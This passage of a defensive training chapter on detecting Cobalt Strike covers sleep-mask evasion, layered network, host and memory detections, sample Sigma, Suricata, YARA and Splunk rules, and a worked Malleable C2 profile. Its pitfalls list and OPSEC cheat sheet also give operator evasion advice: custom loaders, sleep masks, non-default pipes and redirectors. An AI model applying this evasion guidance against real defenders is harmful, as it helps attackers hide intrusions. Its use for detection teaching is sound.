The concept: threat-intel platforms maintain lists of JARM hashes associated with default or common Cobalt Strike team-server TLS stacks. Scanning the internet and matching JARM surfaces candidate team servers. **Defensive takeaway:** JARM is a *lead generator*, not proof — operators can (and do) put team servers behind CDNs and custom TLS (or redirectors terminating TLS with a legit cert) to change the observed JARM, so a JARM match warrants investigation, not conviction.

### 7.5 Lab wrap-up

In three benign steps you reproduced the core of how the industry finds and detects Cobalt Strike: **read the profile** for network IOCs, **recognize staged URIs** by their checksum property, and **fingerprint TLS** to hunt infrastructure. None of it required the product, a license, or a live implant — which is precisely the point: detection knowledge is fully learnable from the defensive side.


## Part 8: The Sleep-Mask Problem and In-Memory Evasion

The hardest detection surface — and the one that has driven the most cat-and-mouse — is **Beacon in memory while it sleeps**. Understanding it explains most modern EDR-vs-C2 dynamics.

Recall Beacon is asynchronous: it spends the vast majority of its life *asleep*. A naive implant, while sleeping, sits in memory as a fully decrypted, recognizable blob — its strings, its config, its code all scannable. An EDR or a memory scanner (YARA over process memory) that wakes up during that window finds it instantly. For years this was *the* reliable Cobalt Strike detection: scan RWX/private-committed regions in every process, match a YARA rule for Beacon's decoded config or known code bytes, done.

The **sleep-mask** is Beacon's answer. When enabled (`set sleep_mask "true";` and, in modern builds, a customizable **sleep-mask kit**), before Beacon sleeps it **encrypts/obfuscates its own memory** (code + data) and, on wake, **de-obfuscates** just long enough to run, then re-masks. During the sleep window there is no clean signature to scan. Advanced sleep-mask kits also flip page permissions (RW while masked, RX while running — never RWX), and some spoof the call stack (return-address spoofing) or use timers/APCs so that at the moment of sleep the thread does not have an obviously-implant call stack.



This is why detection moved **from static memory scanning toward behavioral and structural signals**:

- **RWX / private-committed memory** with executable permission in a process that has no business having it (e.g., a `notepad.exe` with a large RX private region). Even masked Beacon needs *some* executable memory when running; the allocation shape is a tell.
- **Unbacked / floating executable memory** — executable memory not backed by a file on disk (no DLL image behind it). Reflective loading produces this; module-stomping profiles try to hide it behind a legit module's image.
- **Thread start addresses** pointing into unbacked memory, or into a region whose memory-mapped file does not match.
- **Call-stack anomalies** at the moment of an API call (e.g., a `Sleep`/`WaitForSingleObject` whose return chain does not walk back through a real module) — the basis of tools like **Hunt-Sleeping-Beacons** and EDR call-stack telemetry.
- **Timing**: sleep-mask does not hide the *network* rhythm. Beacon still checks in on a jittered cadence. Beacon analysis on NetFlow (Part 10) is memory-mask-proof because it never touches the host.

| Detection surface | Beats a masked Beacon? | Mechanism |
|---|---|---|
| YARA over sleeping process memory | Often no | Masked bytes ≠ signature during sleep |
| RX/RWX private memory scan | Yes (partial) | Executable-but-unbacked regions still exist |
| Call-stack analysis at Sleep | Yes | Sleeping thread's stack lacks a legit module chain |
| Thread start-address heuristics | Yes | Start addr in unbacked memory |
| NetFlow beacon analysis | Yes | Purely network, ignores memory entirely |
| ETW / API telemetry (inject, alloc) | Yes | Catches the *act* of injection/allocation |

**Red team relevance:** OPSEC-mature use pairs a sleep-mask kit with `userwx false`, believable spawnto, indirect syscalls or a good syscall shim to dodge userland API hooks, and long sleeps. Even then, the *network* rhythm and the *act* of injection remain exposures.

**Blue team relevance:** do not rely on YARA-over-memory alone; it was defeated years ago by sleep-mask. Layer memory *structure* analysis (Moneta, PE-sieve, BeaconHunter-style RX-region scanning), ETW-based injection/allocation telemetry, and — most robust of all — network beacon analysis that the mask cannot touch.

## Part 9: Detection & Defense Angle (Consolidated)

This is the section a defender comes for. Cobalt Strike detection is layered across **network**, **host/process**, **memory**, and **infrastructure/intel**. No single signal is reliable against a skilled operator; the strategy is *breadth* — enough independent detections that customizing away all of them is expensive.

### 9.1 Network detections

- **Beacon analysis (the strongest generic signal).** Tools like **RITA** (Real Intelligence Threat Analytics) and Zeek scripts analyze connection logs for periodic check-ins to a destination — consistent inter-arrival timing and consistent data sizes — and score "beaconiness" even through 30–50% jitter. This catches *any* async C2, Cobalt Strike or not. Feed it Zeek `conn.log`. Long-and-slow beacons (hour+ sleeps) are the main evasion, at the cost of operator tempo.
- **JA3 / JA3S / JARM.** Client-side (**JA3**) and server-side (**JARM**) TLS fingerprints. Default Beacon/team-server TLS stacks had known values; custom loaders and CDN-fronted redirectors change them, so treat matches as leads. **JA4/JA4+** (the successor suite) improves robustness and is worth adopting.
- **Malleable-profile IOCs.** URIs, Host headers, User-Agents, cookie/metadata locations lifted directly from public profiles (as in the Part 7 lab). Because operators reuse public profiles, profile repositories are a threat-intel feed.
- **checksum8 stager URIs** (Part 7.3) for staged payloads, and known default URIs (`/__utm.gif`, `/submit.php`, `/dpixel`, `/ca`, `/pixel.gif`).
- **DNS listener signals**: high-volume TXT/A queries to one domain, long/high-entropy labels, and query timing regularity. DNS beacon analysis + entropy scoring.
- **Domain fronting / CDN abuse**: SNI ≠ Host header, or traffic to a high-reputation CDN edge that resolves to content the org never uses. TLS inspection where lawful and feasible.

### 9.2 Host / process detections

- **Named pipes.** SMB P2P Beacon and post-ex jobs create named pipes. Default and common patterns — `msagent_##`, `MSSE-###-server`, `postex_####`, `status_##`, `\mojo.<random>` mimics — are hunted via Sysmon **Event ID 17/18** (pipe created/connected). Non-default pipe names in a profile defeat the *name* signature but the *behavior* (a pipe bridging two processes / two hosts) remains.
- **Process injection & spawnto.** Fork-and-run post-ex spawns a sacrificial process (`rundll32.exe` with no args is the classic default tell; `dllhost.exe`/`gpupdate.exe` in custom profiles) and injects into it. Sysmon **EID 8 (CreateRemoteThread)**, **EID 10 (ProcessAccess)** to `lsass.exe`, and **EID 25 (process tampering)**; EDR memory-write/inject telemetry. A no-argument `rundll32.exe` or a `gpupdate.exe` making network connections is a high-fidelity lead.
- **Parent-child anomalies.** `winword.exe → rundll32.exe`, `services.exe → cmd.exe`, or Office spawning script hosts — classic post-Beacon patterns.
- **Credential access.** `logonpasswords` → handle to `lsass.exe` with `PROCESS_VM_READ|QUERY` (Sysmon EID 10, or the LSASS-access EDR sensor). `dcsync` → `DRSGetNCChanges` from a non-DC (Directory Service replication monitoring / network signature on the DRSUAPI RPC).
- **Lateral movement.** `jump psexec` → **Service creation, Event ID 7045** and remote service EXE in `ADMIN$`; `jump winrm` → WinRM/WSMan events; remote named-pipe access.
- **AMSI/ETW tampering.** `amsi_disable` patches `AmsiScanBuffer`; ETW patching blinds providers. Detect via AMSI-patch memory signatures and ETW-integrity monitoring.

### 9.3 Memory detections

- **Unbacked executable memory** and **RWX/private-committed RX** regions (Moneta, PE-sieve, pe-sieve-based EDR checks).
- **Call-stack analysis** at sleep/API time (Hunt-Sleeping-Beacons; EDR stackwalk telemetry) to catch masked Beacons.
- **YARA over memory** still catches unmasked/older Beacons and decoded configs; run it, but do not depend on it alone (sleep-mask, Part 8).
- **Beacon config extraction.** Given a captured Beacon (sample or memory dump), open-source parsers extract the embedded config — C2 hostnames, URIs, User-Agent, sleep/jitter, watermark, public key — which is gold for scoping and attribution. Tools: **`1768.py`** (Didier Stevens), **CobaltStrikeParser** (Sentinel-One), **BeaconEye**.

### 9.4 Infrastructure / intel detections

- **Team-server hunting** by JARM + default port 50050 + default certificate lineage (`C=Earth, ...` in historical/derivative builds) via Shodan/Censys queries and research feeds.
- **Watermark clustering.** Extracted watermarks group infrastructure and flag known cracked-build watermarks.
- **Default-cert / staging-server checks.** Team servers historically answered stager requests on a computable path; scanners probe candidate hosts and confirm by the stager response shape (again, stageless/redirected setups evade this).



**The defensive thesis:** any one indicator is customizable away, but customizing *all* of them — network shape, TLS fingerprint, pipe names, spawnto, memory allocation, sleep-mask, syscall evasion, watermark, infrastructure — is expensive and error-prone. Defense-in-depth wins by making the operator get *everything* right while you only need to catch *one* mistake. This is why default-profile Cobalt Strike is trivially caught and why even skilled use is catchable with layered telemetry.

## Part 10: Beacon Analysis in Practice (Benign Walk-Through)

To make the network detection concrete, here is how an analyst reasons over Zeek `conn.log` for beaconing — reproducible with any Zeek install and a benign pcap.

```bash
# Extract per-destination connection timing from Zeek conn.log
cat conn.log | zeek-cut id.orig_h id.resp_h id.resp_p ts duration orig_bytes \
  | sort -k2,2 -k4,4n > by_dest.tsv

# For a suspected destination, compute inter-arrival deltas
awk '$2=="203.0.113.10"{ if(prev){print $4-prev} prev=$4 }' by_dest.tsv \
  | sort -n | uniq -c
```

Realistic output (a beacon at ~60s sleep, 37% jitter):

```
   2 41
   3 44
   5 47
   8 52
  11 55
   9 58
   6 60
```

The deltas cluster tightly around 40–60s despite jitter — a human browsing does not produce this distribution; a machine on a schedule does. RITA formalizes this into a beacon score combining timing regularity, data-size consistency, and connection count. **The key property: this analysis never touches the endpoint**, so sleep-mask, syscall tricks, and userland-hook evasion are all irrelevant to it. The only real counter is *long-and-slow* (raise sleep to hours), which throttles the operator and shrinks the sample the analyst needs — a genuine trade-off, not an escape.

**IR use case:** when a Beacon is found on one host, pivot on its C2 destination(s) across *all* NetFlow to find every other beaconing host talking to the same infrastructure — that is how you scope the full footprint, not just patient zero. Then extract the config (`1768.py`) to enumerate every C2 domain/URI and pivot again.

## Part 11: Real-World Abuse, Cases, and Why This Tool Dominates

Cobalt Strike's real-world footprint is why it is the industry benchmark:

- **Ransomware operations.** For years, a very large share of human-operated ransomware intrusions (Conti, Ryuk, LockBit affiliates, and many others documented in DFIR reporting) staged with cracked Cobalt Strike Beacons for the hands-on-keyboard phase — recon, credential theft, lateral movement — before deploying the encryptor. Catching Beacon behaviors therefore catches a big slice of ransomware *before* encryption.
- **Espionage.** Multiple state-aligned groups have used Cobalt Strike (often alongside custom implants) as documented in vendor threat reports, precisely because its Malleable C2 lets them blend in.
- **The cracked-copy problem.** Leaked/pirated builds proliferated for years; Fortra and partners (including Microsoft's DCU) have pursued takedowns of illegitimate copies and infrastructure. Watermarks help attribute which build a given Beacon came from.
- **DFIR corpus.** Because it is everywhere, there is an enormous public corpus — malware-traffic-analysis.net pcaps, disclosed IR reports, config dumps — you can study to learn detection without ever running the tool. This is the recommended path for a defender.

**Why it dominates offensively:** mature, reliable post-ex; the Malleable C2 language that made traffic/memory attacker-shapeable before anyone else; strong collaboration (team model); and a huge ecosystem of Aggressor scripts, BOFs, and kits. Open-source successors (Sliver, Mythic, Havoc — the next chapter) exist largely because Cobalt Strike set the template and because a licensed copy is expensive and heavily fingerprinted.

## Part 12: Common Pitfalls and Misconfigurations

For operators (OPSEC failures that get you caught) and defenders (detection failures), the recurring mistakes:

- **Shipping the default profile.** The single most common self-own — instant signature match on URIs, UA, pipe names, JARM. Never run defaults.
- **Default artifacts / loaders.** Default `artifact.exe`/`beacon.dll` bytes are in every EDR. Custom loaders are mandatory for any serious use; default-artifact detection only catches the careless.
- **`userwx true` / RWX memory.** Leaves executable-writable pages that every memory scanner flags. Modern profiles set `userwx false`.
- **No sleep-mask.** Sleeping Beacon sits decrypted in memory → trivial YARA hit. Enable sleep-mask kits.
- **Short sleeps during SOC hours.** `sleep 0`/5s beacons light up RITA. Long-and-slow, tighten only when working.
- **Default `spawnto rundll32.exe`.** No-arg rundll32 with injected memory and network I/O is a high-fidelity detection. Pick a believable spawnto with plausible arguments.
- **Reusing infrastructure / no redirectors.** Team server directly internet-facing on 50050 with default cert → found by scanners. Always front with redirectors and legit-looking TLS.
- **Defender pitfall: YARA-only memory scanning.** Defeated by sleep-mask years ago; must layer structure + call-stack + network.
- **Defender pitfall: treating JARM/JA3 as proof.** They are leads; CDN-fronted, custom-TLS setups change them. Corroborate with behavior.
- **Defender pitfall: hunting only default IOCs.** Default-URI/pipe hunts miss customized operators entirely; you need behavioral and beacon-analysis detections that survive customization.

## Part 12b: Detection Engineering — Concrete Rules

Turning the Part 9 signals into rules you can actually deploy. These are illustrative, benign detection artifacts — reading them teaches the mechanism.

### 12b.1 Sigma — no-argument rundll32 with a network connection

Default `spawnto rundll32.exe` (no arguments) that also makes network I/O is high-fidelity, because a legitimate `rundll32.exe` is *always* invoked with a DLL and export argument.

```yaml
title: Rundll32 Without Arguments (possible CS spawnto)
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    Image|endswith: '\rundll32.exe'
  filter_args:
    CommandLine|contains: '.dll'
  condition: selection and not filter_args
level: high
tags:
  - attack.defense_evasion
  - attack.t1218.011
```

Pair it with a network-connection correlation (Sysmon EID 3 from the same `rundll32.exe` PID). A no-arg rundll32 that opens a socket is almost never benign.

### 12b.2 Sigma — default Beacon named pipes

```yaml
title: Cobalt Strike Default Named Pipe
logsource:
  category: pipe_created
  product: windows
detection:
  selection:
    PipeName|re: '\\(msagent_[0-9a-f]{2}|MSSE-[0-9]{3,4}-server|postex_[0-9a-f]{4}|status_[0-9a-f]{2})'
  condition: selection
level: high
tags:
  - attack.command_and_control
  - attack.t1071
```

This catches default and derivative builds. A customized `pipename` defeats it — which is why you *also* run behavioral pipe analytics (a pipe bridging two unrelated processes / two hosts) rather than name-only matching.

### 12b.3 Suricata — checksum8 staged URI heuristic

A pragmatic Suricata rule flags the classic staged download shape (a short URI followed by an octet-stream of Beacon-ish size). Real deployments compute the checksum8 in a Lua script; the rule below is the coarse pre-filter:

```
alert http $HOME_NET any -> $EXTERNAL_NET any ( \
  msg:"POSSIBLE Cobalt Strike staged download (4-char URI + binary)"; \
  flow:established,to_server; \
  http.uri; pcre:"/^\/[a-zA-Z0-9]{4}$/"; \
  http.method; content:"GET"; \
  classtype:trojan-activity; sid:9000001; rev:1; )
```

The Lua companion sums the URI bytes and only fires on 92 (x86) or 93 (x64) mod 256, cutting false positives dramatically.

### 12b.4 YARA — a Beacon-config idea (conceptual)

Config-extraction tools like `1768.py` locate Beacon's embedded config by its serialized structure — a table of typed key/length/value records, historically XOR-obfuscated with a single-byte key (`0x69` and `0x2e` in different eras). A YARA rule can anchor on that structure in a sample or memory dump:

```
rule CS_Beacon_Config_Structure {
  meta:
    description = "Heuristic: Cobalt Strike Beacon config table structure"
    reference   = "defensive study only"
  strings:
    // XOR'd config markers (illustrative; real rules use full record layout)
    $magic1 = { 00 01 00 01 00 02 }   // typed record prologue pattern
    $magic2 = { 00 02 00 01 00 02 }
  condition:
    any of them and filesize < 5MB
}
```

The point is not this exact rule — it is that Beacon carries a *structured, extractable config*, which is why config parsers are the single most useful DFIR tool against it: one extraction yields every C2 domain, URI, the sleep/jitter, User-Agent, and the watermark.

### 12b.5 Splunk — beacon-timing search (host-independent)

```
index=zeek sourcetype=conn dest_ip=203.0.113.10
| streamstats current=f last(ts) as prev by src_ip dest_ip
| eval delta = ts - prev
| stats count avg(delta) as mean stdev(delta) as sd by src_ip dest_ip
| eval cv = sd/mean
| where count > 20 AND cv < 0.35
```

A low coefficient of variation (`cv`) over many connections is the statistical fingerprint of a jittered beacon: tightly-clustered inter-arrival times that human traffic does not produce. This is the mask-proof detection from Part 10, expressed as a SIEM search.

## Part 12c: The HTTP GET/POST Wire Walk-Through

To cement how a profile maps to bytes, here is an annotated view of what a *single* Beacon check-in cycle looks like on the wire under the Part 5 example profile — reconstructed from a benign pcap, not a live implant.

**Check-in (GET — "any tasks for me?")**

```
GET /api/v2/telemetry HTTP/1.1
Host: cdn.example-analytics.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) ... Chrome/120.0
Accept: application/json, text/plain, */*
Cookie: session=aVYtR2c5b0p...   <-- encrypted Beacon metadata (base64url), per metadata{} block
Connection: keep-alive
```

The `Cookie` value is the AES-encrypted, base64url-encoded **metadata blob** (host info, session id, keys) that the `metadata { base64url; prepend "session="; header "Cookie"; }` block placed there. To a proxy this looks like an ordinary analytics session cookie.

**Task delivery (server response)**

```
HTTP/1.1 200 OK
Server: nginx
Content-Type: application/javascript; charset=utf-8
Content-Length: 148

/* encrypted, base64-wrapped task bytes as defined by http-get.server.output */
```

An empty task set still returns 200 with a benign-looking body — Beacon polls even when idle, which is exactly the periodicity Part 10 detects.

**Result exfil (POST — "here are the results")**

```
POST /submit HTTP/1.1
Host: cdn.example-analytics.com
Content-Type: application/octet-stream
Content-Length: 5122

<AES-encrypted job output, encoded per http-post.client.output>
```

**Analyst reading**: the `Host`/URI/UA/Cookie come *straight from the profile*; the bodies are encrypted so content inspection is useless; the tells are (1) the profile-defined metadata (a host that never uses that CDN sending it "analytics"), (2) the GET/POST rhythm, and (3) the TLS JA3/JARM if this were HTTPS. Three independent hooks from one cycle — the layered-defense thesis in miniature.

## Part 12d: DNS Beacon Internals

DNS listeners deserve their own look because their detection differs. Over a DNS listener, Beacon encodes check-ins and data into DNS queries for subdomains of a domain whose NS delegation points at the team server. Task data comes back in DNS **answers** (A/AAAA/TXT records). Because many networks that block direct HTTP egress still resolve DNS (often via an internal resolver that forwards out), DNS C2 can escape otherwise-locked-down segments.

```mermaid
sequenceDiagram
    participant B as Beacon
    participant IR as Internal Resolver
    participant Auth as Team Server (authoritative NS)
    B->>IR: A? aGVsbG8.<data>.c2.example.com
    IR->>Auth: recursive lookup
    Auth-->>IR: A 0.0.0.0 (+ encoded answer)
    IR-->>B: A 0.0.0.0
    Note over B,Auth: repeat; large data spans many queries
```

**Detection**: DNS beaconing is caught by (1) **query volume** to a single domain far above baseline, (2) **label entropy** — encoded subdomains are high-entropy and often near the 63-char label / 253-char name limits, (3) **record-type mix** (unusual TXT volume), and (4) **timing regularity** (same beacon analysis, on DNS logs). Passive-DNS and Zeek `dns.log` feed all four. The evasion is, again, low-and-slow plus mimicking a chatty legitimate domain — at severe throughput cost (DNS C2 is very slow).

## Part 12e: Beacon Object Files (BOFs) and Why They Changed Detection

A pivotal modern development is the **Beacon Object File (BOF)** — a small compiled C object (`.o`) that Beacon loads and runs **inside its own process**, resolving a handful of Win32 APIs through a provided function-resolution table, with no new process and no separate injected DLL. Before BOFs, most post-ex used **fork-and-run**: spawn a sacrificial `spawnto` process and inject a post-ex DLL into it — creating the very process-creation + injection telemetry defenders rely on. BOFs collapse that: recon like `whoami`/`net`/`ps` runs in-process, producing far less host telemetry.

**Blue team relevance:** the rise of BOFs is *why* fork-and-run-based detections (odd spawnto child + injection) miss more than they used to, and why network beacon analysis and in-process memory/ETW telemetry have grown relatively more important. BOFs are quieter but not silent — they still make the API calls (e.g., LSASS access for a credential BOF), which ETW/EDR sensors observe regardless of whether a new process was spawned. The lesson: detect the *action* (LSASS handle, replication RPC, service creation) not the *delivery mechanism* (new process), because the delivery mechanism is exactly what operators optimize away.


## Part 12f: Data-Transform Grammar and a Second Worked Profile

The reason Malleable C2 is so hard to signature generically is its **data-transform** grammar: a small stack-based language for how Beacon hides its encrypted bytes inside an otherwise-normal request. Each transform statement appends to a "recipe" applied in order, and the server reverses it. The building blocks:

| Transform statement | Effect | Reverse on server |
|---|---|---|
| `base64` / `base64url` | encode bytes | decode |
| `netbios` / `netbiosu` | NetBIOS encode (lower/upper) | decode |
| `mask` | XOR with a random 4-byte key prepended | unmask |
| `prepend "str"` | add literal prefix | strip |
| `append "str"` | add literal suffix | strip |
| `header "Name"` | place the result in an HTTP header | read header |
| `parameter "name"` | place in a URI/query parameter | read param |
| `uri-append` | append to the request URI | parse from URI |
| `print` | put the result in the message body | read body |

A single `metadata`/`output`/`id` block chains these. Reading a transform chain top-to-bottom tells a defender *exactly* where in the request the encrypted data lives. Example — metadata hidden in a fake OAuth bearer token:

```
http-get {
    set uri "/oauth/v2/userinfo";
    client {
        header "Accept" "*/*";
        metadata {
            mask;
            base64url;
            prepend "Bearer ";
            header "Authorization";
        }
    }
    server {
        header "Content-Type" "application/json";
        output {
            mask;
            base64;
            prepend "{\"data\":\"";
            append "\"}";
            print;
        }
    }
}
```

Here the check-in carries `Authorization: Bearer <masked+base64url>` — indistinguishable at a glance from a real API token — and the task response is a fake JSON `{"data":"<masked+base64>"}`. **Analyst reading:** an `Authorization: Bearer` header on a host talking to a "userinfo" endpoint of a domain the org never federates with, on a jittered cadence, is the lead. The transform grammar is powerful precisely because it lets an operator borrow *any* real API's shape — which is why generic content signatures fail and behavioral/statistical detection wins.

## Part 12g: Cobalt Strike vs the Open-Source Field (Preview)

Detection generalizes because the successors copied the model. A capability comparison — expanded in the next chapter:

| Feature | Cobalt Strike | Sliver | Mythic | Havoc |
|---|---|---|---|---|
| License | Commercial (Fortra) | Open source (BSD) | Open source | Open source |
| Implant lang | C (Beacon) | Go | Agent-agnostic (payload types) | C/ASM (Demon) |
| Traffic shaping | Malleable C2 | limited/profiles | per-C2-profile (containers) | profiles |
| Async beaconing | Yes | Yes | Yes | Yes |
| P2P (SMB/TCP) | Yes | Yes (pivots) | Yes | Yes |
| Sleep obfuscation | Sleep-mask kit | limited | agent-dependent | Ekko/Zilean sleep obf |
| BOF support | Yes (origin) | Yes | Yes | Yes (COFF loader) |
| Watermark/fingerprint | Yes (licensed) | community JARMs | varies | community signatures |

The takeaway that matters for a defender: the *concepts* — async beacon, jitter, listeners, traffic shaping, P2P pivots, sleep obfuscation, BOFs — are shared across all of them. Detections built on **behavior and statistics** (beacon analysis, injection telemetry, LSASS access, unbacked memory) port across the entire field; detections built on **product-specific IOCs** (a default CS pipe name) do not. Invest accordingly.

## Part 12h: ATT&CK Mapping and Coverage Checklist

Mapping Beacon's lifecycle to MITRE ATT&CK gives a SIEM coverage checklist:

| ATT&CK technique | Beacon feature | Primary detection |
|---|---|---|
| T1071.001 App Layer Protocol: Web | HTTP/S listener | beacon analysis, JA3/JARM, profile IOCs |
| T1071.004 DNS | DNS listener | DNS entropy/volume/timing |
| T1573 Encrypted Channel | AES/RSA payloads | can't read body; use metadata/shape |
| T1055 Process Injection | process-inject, fork-and-run | Sysmon 8/10/25, unbacked RX memory |
| T1003.001 LSASS Memory | logonpasswords | LSASS handle (Sysmon 10) |
| T1003.006 DCSync | dcsync | DRSGetNCChanges from non-DC |
| T1021.002 SMB/Admin Shares | jump psexec | Service create 7045, ADMIN$ EXE |
| T1021.006 WinRM | jump winrm | WSMan/WinRM logs |
| T1090 Proxy / pivot | socks, rportfwd, SMB P2P | internal proxy/pipe patterns |
| T1562.001 Impair Defenses | amsi_disable, ETW patch | AMSI/ETW integrity monitoring |
| T1027 Obfuscated Files | Malleable, sleep-mask | memory structure, call-stack |

Walk this table against your detections: any row with no coverage is a blind spot a Cobalt Strike (or clone) operator can drive through. Because these are *technique*-level, closing them hardens you against the whole C2 field, not just one product.


## Part 12i: Redirectors, Infrastructure Tiers, and What Crosses the Wire

Mature operators never point Beacon directly at the team server. They front it with **redirectors** — cheap disposable hosts (nginx/Apache reverse proxies, `socat`, or CDN edges) that receive Beacon traffic and forward the C2 protocol to the team server behind them. This gives infrastructure resilience (burn a redirector, keep the team server) and hides the real C2 from both the victim and casual scanning.



A well-built tier uses a **legitimate TLS certificate** (Let's Encrypt) on the redirector, so the JA3/JARM the victim sees is the redirector's normal web-server stack, *not* the team server's Java default — neutralizing the classic team-server JARM hunt. **Defensive consequence:** internet-wide JARM scanning finds lazy team servers, not well-fronted ones; against mature infrastructure you rely on **in-network** signals (beacon analysis on egress, host/memory telemetry), because the redirector launders the infrastructure fingerprint. This is the single biggest reason "just block known team-server IPs" is not a strategy — the addresses are disposable and fronted.

## Part 12j: Memory Hooks — Locking the Concepts In

- **"Big B vs little b."** *beacon* (Chapter 2) = the generic async check-in pattern; **Beacon** (this chapter) = Cobalt Strike's specific implant. Same rhythm, specific bytes.
- **"Three-part machine."** Team **S**erver, **C**lient, **B**eacon — Server holds state, Client is the operator's eyes, Beacon is the hands on the victim.
- **"Sleep hides memory, not timing."** The sleep-mask blinds YARA-over-memory but is powerless against NetFlow beacon analysis — the network rhythm always leaks. When you forget one detection, remember the one the mask can't touch.
- **"Defaults are dynamite."** Default profile, default artifact, default pipe, default cert, default spawnto — each is a globally-published signature. Customization is not polish, it is survival; and *default-IOC* detections only ever catch the careless.
- **"Detect the verb, not the noun."** LSASS access, replication RPC, service creation, unbacked RX memory — the *actions* — survive BOFs, sleep-masks, and profile changes. Product IOCs do not. Build detections on verbs.
- **"One mistake is enough."** The operator must get *every* layer right — traffic, TLS, pipes, spawnto, memory, mask, syscalls, infra. The defender needs to catch *one*. Breadth is the whole game.


## Part 13: Final Revision / Summary

- **Cobalt Strike = team server (Java C2 back-end, clients on 50050) + client GUI + Beacon (the implant).** Aggressor Script automates the client.
- **Beacon is asynchronous**: sleep + jitter drive a check-in rhythm; interactive `sleep 0` is loud. Traffic bodies are encrypted; you detect *shape/timing/metadata*, not content.
- **Listeners**: HTTP/S and DNS (egress) and SMB-pipe / TCP (P2P for pivoting). Payloads are **staged** (tiny stager + downloaded stage; checksum8 URIs) or **stageless** (whole Beacon embedded, fewer network tells — the modern default).
- **Malleable C2 profiles** shape traffic (URIs, headers, UA, where encrypted metadata hides) *and* memory (`userwx`, `spawnto`, `process-inject`, sleep-mask). Defaults are globally signatured; custom profiles are mandatory OPSEC.
- **Post-ex** spans recon (BOFs), credentials (`logonpasswords`, `dcsync`), lateral movement (`jump`), and pivoting (`socks`, `rportfwd`). Each maps to concrete host telemetry.
- **Sleep-mask** encrypts Beacon in memory while it sleeps, defeating naive YARA — pushing detection toward memory *structure*, call-stack analysis, ETW injection telemetry, and mask-proof **network beacon analysis**.
- **Detection is layered**: network (RITA/Zeek beacon analysis, JA3/JARM/JA4, profile IOCs), host (named pipes, injection, spawnto, 7045, LSASS/DCSync), memory (unbacked RX, call stacks, config extraction with `1768.py`), and infra (team-server JARM + 50050 + cert, watermarks).
- **Real-world**: heavily abused in ransomware and espionage via cracked builds → detecting Beacon behaviors generalizes to a large slice of real intrusions.
- **The strategic point**: any one indicator is evadable; catching *one* of many independent signals is enough for the defender, while the operator must get *all* of them right.

## Part 14: Cheat Sheet / Quick Reference

**Architecture**

| Component | Role | Default port / note |
|---|---|---|
| Team server | Java C2 back-end, parses profile | 50050 (client auth) |
| Client (`cobaltstrike`/`agscript`) | Operator GUI / headless | connects to 50050 |
| Beacon | Implant on victim | talks via listener |
| Aggressor Script | Client automation (Sleep dialect) | `.cna` files |

**Listeners & payloads**

| Listener | Direction | Detect via |
|---|---|---|
| HTTP/HTTPS | Egress | beacon analysis, JA3/JARM, profile IOCs, checksum8 |
| DNS | Egress | query volume, label entropy, timing |
| SMB (named pipe) | P2P | Sysmon 17/18 pipe names |
| TCP | P2P | internal odd-port conns |
| Staged | — | checksum8 URI + large fetch |
| Stageless | — | memory/TLS (no stager URI) |

**Key Beacon commands (post-ex categories)**

| Command | Category | Telemetry |
|---|---|---|
| `sleep <t> <jit>` | tempo/OPSEC | beacon cadence |
| `spawnto` | fork-and-run target | odd sacrificial proc |
| `logonpasswords` | creds (Mimikatz) | LSASS access (Sysmon 10) |
| `dcsync` | creds (replication) | DRSGetNCChanges from non-DC |
| `jump psexec/winrm` | lateral | 7045 / WinRM events |
| `socks` / `rportfwd` | pivot/tunnel | internal proxy patterns |
| `inject` / BOF | execution | RX memory / no new proc |

**Malleable knobs that matter most**

| Knob | Safe (OPSEC) value | Why |
|---|---|---|
| `userwx` | `false` | no RWX memory |
| `sleep_mask` | `true` | mask in-memory during sleep |
| `spawnto_x64` | believable proc w/ args | avoid no-arg rundll32 |
| `pipename` | non-default | dodge pipe-name hunts |
| URIs/UA/Host | mimic real app the target uses | blend traffic |

**Defender tool kit**

| Tool | Purpose |
|---|---|
| RITA / Zeek | network beacon analysis |
| JARM / JA4+ | TLS fingerprinting |
| Sysmon | pipes (17/18), inject (8/10/25), 7045 |
| Moneta / PE-sieve | unbacked/RWX memory scan |
| Hunt-Sleeping-Beacons | call-stack at sleep |
| `1768.py` / CobaltStrikeParser | Beacon config extraction |
| BeaconHunter / BeaconEye | in-memory Beacon detection |
| YARA (CS rules) | pre-mask memory/sample matching |

## Part 15: Practice Labs & Resources

Everything below lets you build Cobalt Strike detection skill **without** a license, cracked build, or live implant.

- **malware-traffic-analysis.net** — dozens of real Cobalt Strike pcaps with write-ups. Load them in Wireshark/Zeek and practice the Part 7/10 analysis: find the URIs, the cadence, the JA3, extract the config.
- **Active Countermeasures — RITA + AC-Hunter Community + "Cyber Threat Hunting" labs** — the canonical free training for beacon analysis on Zeek logs. Feed sample `conn.log`s and score beacons.
- **Unit 42 / SentinelOne CobaltStrikeParser + Didier Stevens `1768.py`** — practice extracting Beacon config from public sample dumps; learn what a watermark, sleep, and C2 profile look like from the config side.
- **JARM (salesforce/jarm) + Censys/Shodan** — fingerprint hosts you own; read public research on team-server JARM hunting. Understand it as a lead generator.
- **DetectionLab / SplunkAttackRange / Atomic Red Team** — spin up a telemetry lab (Sysmon + Splunk/ELK) and run *benign* Atomic tests for the underlying techniques (T1055 process injection, T1021 lateral movement, T1003 LSASS access) to see the exact events Beacon post-ex would generate.
- **MITRE ATT&CK — Software S0154 (Cobalt Strike)** — the mapped technique list; use it as a detection-coverage checklist against your SIEM.
- **Open-source stand-ins (next chapter)** — **Sliver, Mythic, Havoc** are legitimately installable for lab study and reproduce most C2 concepts. Practice detection against a lab you are authorized to run rather than against Cobalt Strike you do not have.
- **PortSwigger / HTB / TryHackMe** — for the surrounding skills: THM has C2 and threat-hunting rooms; HTB ProLabs exercise post-ex behaviors. Use them to connect Beacon post-ex categories to detections.

Practice questions:

1. A proxy log shows a host requesting `/aaa9` followed by a ~150KB binary download, then periodic GETs to `/dpixel` every ~45s with a `Cookie: session=<base64>`. Identify the payload type (staged vs stageless), the likely default profile tells, and the two independent detections you would fire.
2. Explain why enabling a sleep-mask kit defeats YARA-over-memory but not NetFlow beacon analysis, and what single operator setting most reduces the NetFlow signal (and its cost).
3. You extract a Beacon config with `1768.py` and find a non-default pipename, `userwx=false`, a believable spawnto, but the default watermark of a known cracked build. What does the watermark tell you, and how would you use the C2 fields to scope the intrusion?
4. Given only a Malleable profile file, list five network IOCs and three host IOCs you could hunt for, and state which of them a competent operator can trivially change.
5. Describe a layered detection strategy (name one network, one host, one memory, one infra signal) and justify why breadth beats any single high-fidelity rule against a skilled operator.
